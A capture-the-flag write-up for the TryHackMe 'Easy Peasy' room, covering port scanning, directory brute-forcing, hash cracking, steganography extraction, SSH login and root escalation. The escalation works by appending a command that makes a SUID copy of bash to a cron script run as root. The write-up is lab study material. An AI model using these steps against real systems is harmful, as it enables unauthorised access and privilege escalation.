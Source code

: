 ```yaml
---
title: THM | Easy Peasy
date: 2023-12-18
categories: [Nmap and GoBuster]
tags: [cronjob, John The Ripper] 
---
```


Tryhackme Room: [https://tryhackme.com/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

# Reconnaisance

## Nmap

```
nmap -sS -T4 -p1-65535 -sV 10.10.3.41
```

```
Nmap scan report for 10.10.3.41
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Open Ports

- 80 http
- 6498 ssh
- 65524 http

## Port 80 (HTTP)

The web server is showing default nginx page.

![d66abc272c62094382155ae592c9f960.png](/Tryhackme/EasyPeasy/_resources/d66abc272c62094382155ae592c9f960.png)

Next we will use gobuster utility to find hidden files and directories.

```
gobuster dir -u http://10.10.3.41/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 -x php,htnl,txt

```

We Found the following result.

```
/robots.txt           (Status: 200) [Size: 43]
/hidden               (Status: 301) [Size: 169]
```

We found the /hidden directory, so we will open this directory in the browser.

![c9b04fb70a1843627e1b33ae0906645e.png](/Tryhackme/EasyPeasy/_resources/c9b04fb70a1843627e1b33ae0906645e.png)

Nothing interseting found in the webpage and the source code. So, we will run gobuster again in this directory.

```
gobuster dir -u http://10.10.3.41/hidden/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

We found the following result.

```
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] 
```

Next we will browse this /whatever directory and check the source code.

![18ad9e0a9e314c06ab28c46ace0b1efe.png](/Tryhackme/EasyPeasy/_resources/18ad9e0a9e314c06ab28c46ace0b1efe.png)

![03723e1e52824e7b99414511279927a7.png](/Tryhackme/EasyPeasy/_resources/03723e1e52824e7b99414511279927a7.png)

We found a base64 encoded string. So, lets decode it.

![f45ea9db7dbf39b3a663df4ffe3cb464.png](/Tryhackme/EasyPeasy/_resources/f45ea9db7dbf39b3a663df4ffe3cb464.png)

We found our first flag.

Nex we will move to the other http web server running apache on port 65526.

## Port 65524 (HTTP)

The web server running default Apache and we are displayed with default page.

![b501aee346c65354d1b72058a39bc530.png](/Tryhackme/EasyPeasy/_resources/b501aee346c65354d1b72058a39bc530.png)

By closely looking at the page we found a flag3.

![7fc99c3f88b3954330c255bd4ba7fad9.png](/Tryhackme/EasyPeasy/_resources/7fc99c3f88b3954330c255bd4ba7fad9.png)

Next, we will run gobuster and look for hidden directories and files
```
gobuster dir -u http://10.10.219.20:65524/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

Nothing interesting found except `/robots.txt`. 

We found a MD5 hash in the robots.txt file and further we cracked it online

![93fc6b5d284521fb5d92cae282ceac3f.png](/Tryhackme/EasyPeasy/_resources/93fc6b5d284521fb5d92cae282ceac3f.png)

![dee1f5ce0f5ef7a253492eadc33d9bb7.png](/Tryhackme/EasyPeasy/_resources/dee1f5ce0f5ef7a253492eadc33d9bb7.png)

Then, we checked the source page of the apache defualt page, where we got base62 decoded string.

![cbe8549b674ffe17544ffe2805a9181b.png](/Tryhackme/EasyPeasy/_resources/cbe8549b674ffe17544ffe2805a9181b.png)

We decoded the above string and found our hidden directory.

![289808b48432c9fb7331d16453aa74b5.png](/Tryhackme/EasyPeasy/_resources/289808b48432c9fb7331d16453aa74b5.png)

Then, We accessed the hidden directory and found a hash in the source page.

![574a67f9643460139285933bb0d0a487.png](/Tryhackme/EasyPeasy/_resources/574a67f9643460139285933bb0d0a487.png)

![89a92702225a908bf46f78cd1d693e09.png](/Tryhackme/EasyPeasy/_resources/89a92702225a908bf46f78cd1d693e09.png)

As the provided wordlist is recomended to crack the hash, we will do the same.

```
john --format=gost --wordlist=easypeasy.txt hash3.txt
```

![cc7d96d3698ae888a8e4db164a32a66f.png](/Tryhackme/EasyPeasy/_resources/cc7d96d3698ae888a8e4db164a32a66f.png)
 
 Or we can crack it online using `https://md5hashing.net/`
 
 ![01ddd1c46521ddff29beee03e8d24ebc.png](/Tryhackme/EasyPeasy/_resources/01ddd1c46521ddff29beee03e8d24ebc.png)
 
 As, we require password for the SSH login. Next, with the previously cracked password, we will try to extract any hidden information in the image file named `binarycodepixabay.jpg`.
 
 Extracted secret text file using `steghide` tool.
 
 ```
 steghide extract -sf binarycodepixabay.jpg 
 ```
 ![de3b4a553e2b671266d8f5957d50be8e.png](/Tryhackme/EasyPeasy/_resources/de3b4a553e2b671266d8f5957d50be8e.png)
 
 Then, we converted the binary to text and the password.
 
 ![236d137c4d2437cebc01d07fcc85901d.png](/Tryhackme/EasyPeasy/_resources/236d137c4d2437cebc01d07fcc85901d.png)
 
 # Initial Foothold
 
 So, after getting the credential to login, we ssh to the machine and got the user flag.
 
 ```
 ssh boring@10.10.219.20 -p 6498
```

![9ca9b1256c68c455b45add16977013d8.png](/Tryhackme/EasyPeasy/_resources/9ca9b1256c68c455b45add16977013d8.png)

But, we have to decode the cypher text and get our flag.

![ba4c282f6aa223495e7964edbc18c9d7.png](/Tryhackme/EasyPeasy/_resources/ba4c282f6aa223495e7964edbc18c9d7.png)


# PrivEsc

After checking the cron jobs and sudo permissions, we were not getting anything for elevate privilege.
So, we transferred linpeas.sh to the target machine and run the script.

![4e33ba2c1f15c0f0159c42ee68919658.png](/Tryhackme/EasyPeasy/_resources/4e33ba2c1f15c0f0159c42ee68919658.png)

We found the interesting file under /var/www 

![6477b3f9eccbceef736e83eb39ef9b76.png](/Tryhackme/EasyPeasy/_resources/6477b3f9eccbceef736e83eb39ef9b76.png)

Interestingly this script is running by root as cron job.

![6e9dc5eedbd8cf8535268202e3781352.png](/Tryhackme/EasyPeasy/_resources/6e9dc5eedbd8cf8535268202e3781352.png)

So we will add our malicious code to get a copy of bash with suid in the /tmp directory
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> .mysecretcronjob.sh
```

![7bdfcab48ac9db7b5ecaa0b8fdf47409.png](/Tryhackme/EasyPeasy/_resources/7bdfcab48ac9db7b5ecaa0b8fdf47409.png)

Next, We will execute the script and get the root privilege and read the root flag under /root directory

![1b59a4fb29d64a111f68631b4403df5c.png](/Tryhackme/EasyPeasy/_resources/1b59a4fb29d64a111f68631b4403df5c.png)

![60f76851290d31ad26bd98dbf7badaea.png](/Tryhackme/EasyPeasy/_resources/60f76851290d31ad26bd98dbf7badaea.png)